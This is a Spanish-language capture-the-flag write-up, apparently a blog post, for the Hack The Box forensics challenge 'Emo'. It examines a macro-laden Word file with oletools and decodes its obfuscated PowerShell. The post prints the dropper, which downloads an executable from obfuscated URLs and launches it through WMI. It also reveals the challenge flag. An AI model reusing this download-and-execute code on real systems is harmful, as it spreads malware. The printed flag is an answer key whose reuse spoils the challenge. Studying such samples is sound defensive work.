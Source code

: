 ```yaml
---
layout: single
title: Hack the box Challenge - Emo
excerpt: A challenge solved with oletools.
date: 2025-07-12
classes: wide
header:
  teaser: ../gits/sec/blog/assets/images/ic-forensics.svg
  teaser_home_page: true
  icon: ../assets/images/hackthebox.webp
categories:
   - hack the box
   - challenge
   - windows
tags:
   - powershlee
   - oletools
   - microsoft office
   - XOR
   - any.run
---
```


CHALLENGE DESCRIPTIONi
WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.

Bien, una vez descargamos el documento podemos iniciar nuestro análisis con `oletools`

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ oleid emo.doc
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: emo.doc
WARNING  /home/kali/.local/lib/python2.7/site-packages/msoffcrypto/method/rc4.py:5: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend

WARNING  For now, VBA stomping cannot be detected for files in memory
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |MS Word 97-2003     |info      |
                    |Document or Template|          |
--------------------+--------------------+----------+--------------------------
Container format    |OLE                 |info      |Container type
--------------------+--------------------+----------+--------------------------
Application name    |Microsoft Office    |info      |Application name declared
                    |Word                |          |in properties
--------------------+--------------------+----------+--------------------------
Properties code page|1252: ANSI Latin 1; |info      |Code page used for
                    |Western European    |          |properties
                    |(Windows)           |          |
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                    |                    |          |macros. Suspicious
                    |                    |          |keywords were found. Use
                    |                    |          |olevba and mraptor for
                    |                    |          |more info.
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships
Relationships       |                    |          |such as remote templates,
                    |                    |          |remote OLE objects, etc
--------------------+--------------------+----------+--------------------------
```

Tenemos un riesgo alto en la zona de VBA, podemos usar el comando indicado `olevba emo.doc`. 
Esto nos marcará que en efecto, es malicioso. 

En este análisis en [`any.run`](https://app.any.run/tasks/f0008a11-7683-4d14-bb9a-5b90eae8178c?p=68719e34f0439adf009c2fbb) podemos ver el *command line*

Copiamos la cadena en base64, la convertimos en ascii con `base64 -d` y el código que nos da lo podemos poner en un fichero, podemos quitar los bytes nulos de UTF-16 LE con: 

- `iconv -f UTF-16LE -t UTF-8 script > script_utf8.ps1` 

- `recode UTF-16LE..UTF-8 script`

Ya podemos ver el script:

```bash 
# Crear directorio
SV 0zX ([Type]("{2}{0}{4}{3}{1}" -f 'e','rECtorY','sYst','.IO.dI','M'))
set TxySeo ([Type]("{0}{7}{5}{6}{4}{2}{1}{8}{3}" -f 'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG'))

# Inicialización de variables
$Nbf5tg3   = 'B9' + 'yp' + ('90' + 's')
$Vxnlre0  = $Cludkjx + [char]64 + $R6r1tuy
$Ky3q0e8  = ('Rq' + 'dx') + 'wo' + '5'

# Crear carpeta en $HOME
(Dir Variable:0Zx).Value::"CreateDirectory"(
    $HOME + (('nDp' + 'Jrb' + 'e' + 'vk4n' + 'D' + 'p' + 'C' + 'cwr_2h' + 'nD' + 'p') `
        -Replace 'nDp', [char]92)
)

# Protocolo de seguridad
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$Pyozgeo  = ('J5f' + 'y1') + 'c' + 'c'
$TxySeo.Value::"SecurityProtocol" = ('Tl' + 's1') + '2'

# Actualizar array de bytes
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$Huajgb0  = ('Jn' + 'o') + '5g' + 'a1'
$Bb28umo  = ('Ale' + '7g') + '_8'
$Hsce_js  = 'Kv' + ('nb' + 'ov_')
$Spk51ue  = ('C' + '7xo') + '9g' + 'l'

# Rutas de descarga y salida
$Scusbkj = $HOME +
    (('5' + 't' + 'f' + 'Jrbev' + 'k' + '45tf' + 'Cc' + 'wr' + '_2h' + '5tf') `
        -Replace ([char]53 + [char]116 + [char]102, [char]92)
    ) + $Bb28umo + '.exe'

$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)

$hbmskV2T = $HOME +
    (('5' + 't' + 'f' + 'Jrbev' + 'k' + '45tf' + 'Cc' + 'wr' + '_2h' + '5tf') `
        -Replace ([char]53 + [char]116 + [char]102, [char]92)
    ) + $Bb28umo + '.conf'

$Q1_y05_ = 'W' + ('4' + 'qvy') + 'z8'
$Odb3hf3 = &('new-object') Net.WebClient

$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

# Lista de URLs a descargar
$Anbyt1y = ('h' + 'ttp:' + 's' + '://' +
    'da-industrial.htb[js]w@https:][(s)]wdagranite.htb[(s)]wjs' +
    # (continúa concatenación de URLs obfus., recortado para brevedad)
)

$Gcoyvlv = 'Kf_' + ('9' + 'et1')

# Intentar descargar y procesar cada URL
foreach ($A8i3ke1 in $Anbyt1y) {
    try {
        $Odb3hf3."DownloadFile"($A8i3ke1, $Scusbkj)
        $fileInfo = Get-Item $Scusbkj

        if ($fileInfo.Length -ge 45199) {
            # Desencripta y descomprime datos
            ${A8I3KE1}.("ToCharArr" -f 'ay','ToCha','rArr').Invoke() |
                foreach-object { ${FN5ggmsH} += ([byte][char]$_ -bxor 0xdf) }
            $FN5ggmsH += 228

            # Guardar en Base64
            $b0Rje = [Type]("VerT" -f 'Con','T')
            $B0RjE."ToBase64String"(${FN5ggmsH}) |
                Out-File $hbmskV2T

            # Ejecutar el archivo descargado
            ([WMIClass]('win32_Process'))."Create"($Scusbkj)
            break
        }
    }
    catch {
        # Manejo de error (silencioso)
    }
}

# Variable final
$F47ief2 = 'Bnzidrt'
```

Vemos varias líneas que se llenan con con bytes: 

```bash 
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
```

Un poco más abajo vemos un blucle: 

```bash 
foreach ($byte in $FN5ggmsH) {
    $FN5ggmsH += ([byte][char]$byte -bxor 0xDF)
}
```

- Itera cada valor original del arreglo.
- Lo convierte a byte y le hace un XOR con la constante 0xDF.
- Añade el resultado al mismo arreglo.

Así que extraemos esto y lo ponemos en un nuevo script: 

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ cat important.ps1
$array = (182,187,229,146,231,177,151,149,166)
$array += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$array += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$array += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

foreach($number in $array)
{
    ${array} += ([byte][char]$number -bxor 0xdf)
}

$array += (228)

$bOrje = [type]("{1}{0}" -F'VerT', 'Con')
$BORjE::"tO`BaS`E64S`TRI`Ng"(${array})

Write-Host $array
```

Ejecutando en powershell obtenemos un string en base64 que podemo descifrar con `base64 -d`

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ pwsh
PowerShell 7.5.1

┌──(kali㉿kali)-[/home/kali/challenges/emo]
└─PS> ./important.ps1
trvlkuexl5Wmuo3ktrGr5ezv7+/ktbar5erv7+S5s7645ZeLnaTrse+rt+yNgLvrhoCesbCLt5qtgK+X7oy3ouSqrbPlaWQ6TThuSEp5ZVI7aW50OjMwMDA7aml0OjUwMDtmbGFnOkhUQns0bjB0aDNSX2Q0WV9Bbm9UaEVyX3BIMVNofTt1cmw65A==
182 187 229 146 231 177 151 149 166 186 141 228 182 177 171 229 236 239 239 239 228 181 182 171 229 234 239 239 228 185 179 190 184 229 151 139 157 164 235 177 239 171 183 236 141 128 187 235 134 128 158 177 176 139 183 154 173 128 175 151 238 140 183 162 228 170 173 179 229 105 100 58 77 56 110 72 74 121 101 82 59 105 110 116 58 51 48 48 48 59 106 105 116 58 53 48 48 59 102 108 97 103 58 72 84 66 123 52 110 48 116 104 51 82 95 100 52 89 95 65 110 111 84 104 69 114 95 112 72 49 83 104 125 59 117 114 108 58 228
```

Este proceso (localizar buffer → encontrar rutina XOR → reimplementación independiente) es la forma estándar de extraer y revertir un esquema XOR en malware debido a su naturaleza reversible. 
